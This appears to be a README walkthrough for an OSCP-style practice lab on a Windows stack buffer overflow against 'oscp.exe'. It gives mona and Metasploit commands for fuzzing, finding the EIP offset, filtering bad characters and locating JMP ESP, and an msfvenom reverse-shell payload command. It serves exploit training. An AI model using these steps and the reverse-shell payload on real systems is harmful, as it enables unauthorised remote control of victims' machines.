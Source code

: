 ## Steps for `Buffer Overflow`

1. Set up !Mona on Debugger

```
!mona config -set workingfolder c:\mona\%p
```

2. Change the IP, what is to be sent, port on fuzzer.py. Once changed, run fuzzer.py

```
python fuzzer.py
```

Make a note of the largest number of bytes that were sent.

3. Run the following command on Kali. Input the number of bytes before the application crash, plus another 400 bytes.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number of bytes>
```

4. Copy the string that is generated from the above command and paste it under payload in the exploit.py. Run exploit.py.

```
python exploit.py
```

5. In the Debugger, use the following command. The number of bytes will be the number that is used to generate the pattern.

```
!mona findmsp -distance <number of bytes>
```

The position where EIP is will be on:

```
EIP contains normal pattern : ... (offset XXXX)
```

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

6. Generate a bytearray using the following command on debugger:

```
!mona bytearray -b "\x00"
```

This will be used to compare after the exploit is run.

7. Using the byte_generater.py, generate the characters to test the bad characters for the exploit.

```
python byte_generater.py
```

Copy the characters and paste them under `payload` in `exploit.py`.

8. Run exploit.py. The application will crash. Once the application has crashed, take note of the ESP register. Run the following on Debugger, where the address is the ESP regsiter location:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

9. Run `Step 6` again, adding in the bad characters one by one. Remove the bad characters from payload variable in `exploit.py`. Run exploit.py. The application will crash

Once the application has crashed, run `Step 8` again to compare whether there are still bad characters. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

10. With the application running, run the following command, to include the bad characters found:

```
!mona jmp -r esp -cpb "\x00\x07"
```

This is to find any `JMP ESP` that do not have the bad characters indicated.

11. Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

12. Generate a metersploit payload, using Kali IP and include bad characters, in the command below: 

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the payload and paste it under the payload in `exploit.py`.

13. Add in padding in `exploit.py`

```
padding = "\x90" * 16
```

14. Start the msfconsole listener and run the exploit. 











